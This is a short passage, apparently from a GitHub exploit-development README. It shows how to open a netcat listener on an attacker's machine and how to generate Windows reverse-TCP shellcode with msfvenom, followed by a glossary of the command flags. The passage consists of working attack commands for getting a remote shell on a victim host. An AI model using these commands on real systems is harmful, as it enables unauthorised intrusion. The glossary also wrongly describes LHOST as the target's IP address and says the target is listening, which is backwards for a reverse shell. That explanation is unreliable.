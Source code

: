 **Reverse Shell on Attacker's Machine**

> nc -nvlp <PORT_NUMBER>

**SHELL CODE GENERATION**

> msfvenom -p windows/shell_reverse_tcp LHOST=<TARGET_IP> LPORT= <PORT_NUMBER> -f py EXITFUNC=thread -a x86 -b"\x00"

where,

-p -> Payload
-LHOST -> Target IP Address
-LPORT -> Target Port Number on which Target is Listening
-f -> File Type
EXITFUNC=thread -> To make Connection More Stable
-a -> Architecture
-b -> Bad Characters